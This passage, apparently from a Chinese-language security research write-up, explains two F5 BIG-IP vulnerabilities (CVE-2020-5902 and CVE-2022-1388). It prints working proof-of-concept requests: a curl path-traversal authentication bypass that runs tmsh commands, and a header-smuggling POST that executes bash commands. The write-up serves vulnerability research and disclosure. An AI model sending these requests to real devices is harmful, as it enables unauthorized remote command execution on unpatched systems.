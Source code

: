 CVE-2020-5902 的概念证明是一个简单的 HTTP 请求，用于绕过身份验证要求并向“tmshCmd.jsp”端点发送请求，该端点在系统上执行 tmsh 命令。以下是绕过身份验证的 curl 请求示例：

```plain
curl -k 'https://<host>:<port>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

攻击者在野利用了该漏洞，CISA 发布了有关该活动的[公告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-206a)。"/tmui" API 包含了与此漏洞相关的处理程序代码。

F5 的第二个漏洞于 2022 年进行披露，编号为 ([CVE-2022-1388](https://my.f5.com/manage/s/article/K23605346))。由于 HTTP 逐跳标头的处理方式，设置标头“Connection: X-F5-Auth-Token”会导致“X-F5-Auth-Token”标头不会在请求中后端代码处理中出现。在没有该头部的情况下，后端代码并不会停止处理，导致请求成功通过，仿佛已经经过了身份验证。

下面的示例请求（来自此[概念证明](https://github.com/alt3kx/CVE-2022-1388_PoC)）导致代码执行"/mgmt/tm/util/bash" API 是一个执行命令并返回结果的端点。

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redacted>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0
{"command": "run" , "utilCmdArgs": " -c 'id' " }
```

此身份验证漏洞涉及 F5 BIG-IP API 的不同组件，即“/mgmt”处理程序。

F5 已经修补了这两个漏洞，并进一步更新了“/tmui”API 中的相关 JSP 处理程序以限制其功能。现在，“fileRead.jsp”处理程序将不再读取任意文件（它仅限于一个非常小的子集），并且“tmshCmd.jsp”处理程序不会执行任意 tmsh 命令（它是“ilx”相关功能的一个小子集）。

## F5 BIG-IP 攻击面

我们使用一个[AWS Marketplace 模板](https://aws.amazon.com/marketplace/pp/prodview-lphsy6izllsmq?sr=0-1&ref_=beagle&applicationId=AWSMPContessa)部署了默认的 F5 安装，并开始在服务器上识别组件。

```plain
[admin@localhost:Active:Standalone] ~ # cat /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
[admin@localhost:Active:Standalone] ~ # uname -r
3.10.0-862.14.4.el7.ve.x86_64
```
